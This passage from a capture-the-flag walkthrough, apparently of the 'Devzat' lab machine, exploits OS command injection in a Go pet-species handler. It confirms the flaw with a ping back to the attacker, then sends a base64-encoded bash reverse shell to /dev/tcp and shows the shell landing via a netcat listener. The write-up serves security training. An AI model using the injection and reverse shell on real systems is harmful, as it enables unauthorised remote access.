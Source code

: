 We got the source code, let’s dig in.

```python
⛩\> cat main.go
package main

------SNIP------

func loadCharacter(species string) string {
        cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
        stdoutStderr, err := cmd.CombinedOutput()
        if err != nil {
                return err.Error()

------SNIP------
```

Species is vulnerable to OS command injection. Add a pet name and intercept the request.

![Screen Shot 2021-10-17 at 03.58.40.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/82F4C823-86AC-4BD3-A0DC-DEDE1DCB0BC1/A39C63AD-FAA5-4D7D-B11F-F8BC60FC3FBA_2/Screen%20Shot%202021-10-17%20at%2003.58.40.png)

Let’s first try to get a ping request back to our machine. Make sure to setup a tcpdump. `sudo tcpdump -i tun0 icmp`

![Screen Shot 2021-10-17 at 04.00.00.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/82F4C823-86AC-4BD3-A0DC-DEDE1DCB0BC1/341D7990-E6DA-467E-8706-A2095185C52A_2/Screen%20Shot%202021-10-17%20at%2004.00.00.png)

Forward the request and check tcpdump.

```python
⛩\> sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:59:48.153917 IP devzat.htb > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
10:59:48.153952 IP 10.10.14.6 > devzat.htb: ICMP echo reply, id 2, seq 1, length 64
10:59:49.156045 IP devzat.htb > 10.10.14.6: ICMP echo request, id 2, seq 2, length 64
10:59:49.156082 IP 10.10.14.6 > devzat.htb: ICMP echo reply, id 2, seq 2, length 64
10:59:50.200769 IP devzat.htb > 10.10.14.6: ICMP echo request, id 2, seq 3, length 64
10:59:50.200804 IP 10.10.14.6 > devzat.htb: ICMP echo reply, id 2, seq 3, length 64
10:59:51.224300 IP devzat.htb > 10.10.14.6: ICMP echo request, id 2, seq 4, length 64
10:59:51.224330 IP 10.10.14.6 > devzat.htb: ICMP echo reply, id 2, seq 4, length 64
```

We got 4 hits from the machine. Let’s gain a reverse shell via this vulnerability. Let’s encode our bash one-liner and send the request.

```python
⛩\> echo -n 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzkwMDEgMD4mMQ==
```

![Screen Shot 2021-10-17 at 04.05.38.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/82F4C823-86AC-4BD3-A0DC-DEDE1DCB0BC1/CCAB01A1-CFA1-4019-A112-D1F537E0C55B_2/Screen%20Shot%202021-10-17%20at%2004.05.38.png)

Check the listener.

```python
⛩\> nc -lvnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.240.56.
Ncat: Connection from 10.129.240.56:53216.
bash: cannot set terminal process group (926): Inappropriate ioctl for device
bash: no job control in this shell

patrick@devzat:~/pets$ id
id
uid=1000(patrick) gid=1000(patrick) groups=1000(patrick)
```
